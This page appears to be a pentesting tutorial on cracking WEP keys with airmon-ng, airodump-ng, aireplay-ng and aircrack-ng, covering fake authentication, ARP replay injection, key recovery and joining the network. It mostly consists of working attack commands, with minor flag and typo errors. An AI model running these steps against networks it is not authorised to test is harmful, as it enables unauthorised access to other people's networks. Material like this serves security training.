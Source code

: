 ## Cracking WEP Keys Using a Fake Authentication and Traffic Generation[](#cracking-wep-keys-using-a-fake-authentication-and-traffic-generation)

In this tutorial, we'll demonstrate how to crack WEP keys by injecting fake authentication requests and generating traffic to collect enough IVs (Initialization Vectors) for cracking the WEP key.

### Prerequisites[](#prerequisites)

Ensure you have the following:

- A wireless card that supports monitor mode.
- The necessary tools: `airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng`.
- A wordlist (e.g., `/usr/share/wordlists/rockyou.txt`).

### Step-by-Step Process[](#step-by-step-process)

#### 1. **Start Interface in Monitor Mode and Kill Unwanted Services**[](#id-1.-start-interface-in-monitor-mode-and-kill-unwanted-services)

Start by disabling any interfering services, then put your wireless interface into monitor mode:

```bash
airmon-ng check kill && airmon-ng start wlan0
```

#### 2. **Scan for Networks**[](#id-2.-scan-for-networks)

Next, scan for nearby wireless networks to identify the one you want to target:

```bash
sudo airodump-ng wlan0mon
```


This command will show a list of available networks, including their BSSID (MAC address) and channel.

#### 3. **Run Airodump on Specific Access Point**[](#id-3.-run-airodump-on-specific-access-point)

Once you've identified the target AP, run `airodump-ng` on the specific network to capture data:

```bsah
sudo airodump-ng -bssid <BSSID> -c <Channel> -w <output_file> wlan0mon
```

- `<BSSID>`: The MAC address of the target AP.
- `<Channel>`: The channel number on which the AP is operating.
- `<output_file>`: The name of the file to save the captured data (e.g., `capture.cap`).

#### 4. **Create Fake Authentication Requests**[](#id-4.-create-fake-authentication-requests)

In order to associate with the target AP and start generating traffic, use `aireplay-ng` to send fake authentication requests:

```bash
sudo aireplay-ng -1 3600 -q 10 -a <BSSID> wlan0mon
```

BashCopyMore options

- `-1 3600`: Sends a fake authentication request every 3600 seconds (1 hour).
- `-q 10`: Sets the packet sending interval to 10.
- `-a <BSSID>`: The BSSID of the target AP.
#### 5. **Generate Traffic for IVs**[](#id-5.-generate-traffic-for-ivs)

Next, you need to generate traffic to collect enough IVs for cracking the WEP key. This is done by injecting traffic using `aireplay-ng`:

```bash
sudo aireplay-ng -3 -b <BSSID> -h <Client MAC> wlan0mon
```

BashCopyMore options

- `-3`: The option to generate traffic (ARP requests).
- `-b <BSSID>`: The BSSID of the target AP.
- `-h <Client MAC>`: The MAC address of a client device connected to the AP.

#### 6. **Crack the WEP Key**[](#id-6.-crack-the-wep-key)

Once you've captured enough IVs (you want at least 30-40,000), use `aircrack-ng` to crack the WEP key:

```bash
sudo aircrack-ng <output_file>.cap
```

`<output_file>.cap`: The capture file containing the IVs.

### Connecting to the Wireless Network:[](#connecting-to-the-wireless-network)

Connecting:

```bash
wpa_supplicant -c <filename>.conf
```

Then open another terminal and request ip from the DHCP server:

```bash
sudo dhclient wlan0 -v
```

#### 7. **Conclusion**[](#id-7.-conclusion)

After following these steps, you should have cracked the WEP key for the target AP. This method works by injecting fake authentication requests, generating traffic to collect IVs, and then using those IVs to break the encryption.

**Note**: WEP is an outdated and insecure protocol. It is highly recommended to use WPA2 or WPA3 encryption for better security.
